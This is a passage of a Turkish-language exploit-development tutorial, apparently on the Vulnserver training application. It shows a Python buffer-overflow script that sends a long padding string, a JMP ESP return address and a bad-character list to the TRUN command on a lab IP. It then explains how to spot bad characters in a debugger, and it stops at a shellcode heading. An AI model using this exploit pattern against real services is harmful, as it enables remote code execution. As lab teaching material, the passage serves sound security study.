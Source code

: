 ```shell
```


```python
#!/usr/bin/python

import socket

jmp_esp = '\xAF\x11\x50\x62' #625011AF   FFE4             JMP ESP

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

karaktersiz = 'A' * 2006 + jmp_esp + badchars
i = 200

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect(('192.168.150.18',9999))
s.recv(1024)
s.send('TRUN .' + karaktersiz)
s.recv(1024)
s.close()
```

Yukarıdaki badchar'ları exploitimiz aracılığıyla hedef uygulamaya göndereceğiz ve nelerin eksik olduğunu kontrol edeceğiz.

Not: jmp esp register'ını artık script'imize ekliyoruz.

Aslında execute edilmeyen ne kadar komut varsa onları tespit edeceğiz. Ve onları badchars olarak işaretleyeceğiz. Not: Tabi hiç badchars da olmayabilir. Bu durumda \x00 (nullbyte) badchar'dır. Null byte'ın arkasından gelen işlemler olmayacaktır bu sebeple \x00'ı çıkaracağız.

Fuzzer scriptini çalıştırıp dönen register'larda ESP'ye sağ tıklayıp Follow in Dump diyoruz ve sol alt penceredeki adreslerde dump detaylarını görebiliriz. Hex Dump kısmını detaylıca kontrol edip (tek tek sayıp) sıralamayı bozan karakterler varsa onlar badchars'tır. (Örn; 46'dan sonra 47 gelmesi gerekirken başka birşey gelmişse o \x47 karakterini badchar olarak işaretlememiz gerekiyor)

### SHELLCODE ve REVERSE SHELL
